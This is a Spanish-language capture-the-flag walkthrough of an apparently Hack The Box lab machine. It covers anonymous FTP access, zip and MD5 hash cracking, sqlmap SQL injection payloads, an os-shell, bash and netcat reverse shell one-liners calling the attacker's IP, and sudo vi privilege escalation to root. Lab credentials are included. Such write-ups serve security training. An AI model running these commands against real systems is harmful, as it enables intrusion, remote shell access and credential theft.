 #Linux #Easy #fuzzing
### nmap
```python
nmap -sVC 10.129.66.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 16:29 EDT
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 28.95% done; ETC: 16:29 (0:00:20 remaining)
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 77.37% done; ETC: 16:29 (0:00:06 remaining)
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 16:30 (0:00:03 remaining)
Nmap scan report for 10.129.66.130
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.157
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

###### Podemos ver que el puerto 21 esta corriendo el servicio ftp el cual esta configurado por defecto como anonymous
### ftp
```python
ftp 10.129.66.130
Connected to 10.129.66.130.
220 (vsFTPd 3.0.3)
Name (10.129.66.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10423|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

###### al entrar nos damos cuenta que existe un archivo backup.zip el cual descargaremos usando `get backup.zip` si hacemos `unzip backup.zip` al intentar descomprimir el archivo nos damos cuenta que esta cifrado por lo que usaremos `john the ripper con la opcion zip2john` 

```python
zip2john backup.zip > backuphash  
```
###### con la opcion `>` cambiamos el nombre para que podamos ver el hash de la contraseña, ahora le hacemos un `cat` para ver si tenemos el hash y si todo esta correcto le pasamos el john 

```python
john -wordlist=/usr/share/wordlists/rockyou.txt backuphash

--Passw: 741852963
```

![[Pasted image 20240611211603.png]]

###### conseguimos dos archivos: `index.php` `style.css` el index.php se ve prometedor asi que le hacemos un `cat`

![[Pasted image 20240611211609.png]]
###### conseguimos lo que parece ser una contraseña que esta codificada en otro hash. entonces usaremos hashid para intentar saber que tipo de hash es 

```python
:hashid 2cb42f8734ea607eefed3b70af13bbd3
```

![[Pasted image 20240611211614.png]]

###### Podriamos probar con MD2 - MD5 y MD4 que son los mas comunes. para esto usaremos `hashcat`

```python
hashcat -a 0 -m 0 passwhash /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20240611211622.png]]

###### Bueno nos guardamos la contraseña probaremos entrar en la direccion web ya que en el reconocimiento nmap nos damos cuenta que tambien tiene el puerto 80 abierto

![[Pasted image 20240611211630.png]]

### iniciamos con las credenciales que hemos conseguido
```python
--admin
--qwerty789
```

![[Pasted image 20240611211636.png]]

###### logramos entrar y haciendo unas pruebas rapidas parece que la pag esta conectada a la base de datos y es vulnerable a SQLI. 

```python
como podemos saber si es vulnebrable a SQLI. en el buscador ponemos una comilla simple ` y damos enter y vemos que aparece un error. esto se debe a que la pag esta leyendo la comilla como si fuera un caracter alfa numerico y no como un caracter especial como deberia ser
```
para verificar esto usaremos `sqlmap`
```python
sqlmap -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg"

-u para indicar la url de la pag 
--cookie para indicar la cookie de session 

si hacemos sqlmap -h se abre el panel de ayuda y podemos ver que el comando --current-db nos enumera la base de datos actual en la que estamos asi que usaremos ese 

tambien podemos ver que existe uno llamado --batch para que realice todas las acciones por defecto sin pregunytarnos nada. asi que el comando nos queda de la sigiente manera: 
------------------------------------------------------
sqlmap --current-db -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
------------------------------------------------------
```

### Podemos ver que el resultado:
![[Pasted image 20240611211647.png]]

### Podemos notar que existen 4 tipos de inyecciones SQLI y que el nombre de la base de datos es public

```python
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (1509=1509) THEN NULL ELSE CAST((CHR(101)||CHR(86)||CHR(75)||CHR(74)) AS NUMERIC) END)) IS NULL-- nIOk

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 2166=CAST((CHR(113)||CHR(122)||CHR(118)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (2166=2166) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(107)||CHR(113)||CHR(113)) AS NUMERIC)-- NgJP

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 7512=(SELECT 7512 FROM PG_SLEEP(5))-- tfIZ
```

###### ahora que sabemos el nombre de la base de datos podemos enumerarla usando el mismo comando sqlmap con una pequeña variante: 
```python
sqlmap -D public --tables -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```
conseguimos una tabla llamada cars asi que buscaremos esa tabla con el siguiente comando
```python
sqlmap -D public -T cars --culumns -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[Pasted image 20240611211725.png]]

###### podemos ver algunas columnas pero si nos fijamos podemos ver que son las mismas que salen ena la pagina web asi que mejor seguimos buascando en sqlmap y podemos encontar la opcion `--os-shell` asi que lo usaremos en nuestro codigo.

```python
sqlmap --os-shell -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[Pasted image 20240611211738.png]]

###### de esta manera hemos conseguido una shell interactiva. pero esta shell esta un poco limitada asi que podemos intentar enviarnos una reverse shell a nuestro equipo para poder interactuar de mejor manera.

```python
sh -i >& /dev/tcp/10.10.15.157/8001 0>&1
```

```python
bash -c 'bash -i >& /dev/tcp/10.10.15.157/8001 0>&1'
```

###### con esta bash notamos que perdemos coneccion. asi que usaremos una enviada por netcat para intentar resolver esto.

```python
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```

### despues de esto hacemos TTtratamiento tty y empezamos a examinar la maquina.

###### vamos a navegar hasta el directorio donde esta alojada la base de datos
passid:
```python
2cb42f8734ea607eefed3b70af13bbd3
```
db:id
```python
user: postgres
password: P@s5w0rd!
```

### con estas credenciales podriamos intentar entrar via ssh

hacemos sudo -l para saber cuales son los permiso que tiene el usuario postgres como administrador 

```python
/bin/vi /etc/postgresql/11/main/pg_hba.config`
```

vemos que tiene permisos solo en este archivo asi que lo ejecutaremos como administrador 
```python
sudo /bin/vi /etc/postgresql/11/main/pg_hba.config
```

abrimos el archivo, y le decimos que nos de una shell y presionamos enter. 
automaticamente seremos root

### WE ARE ROOT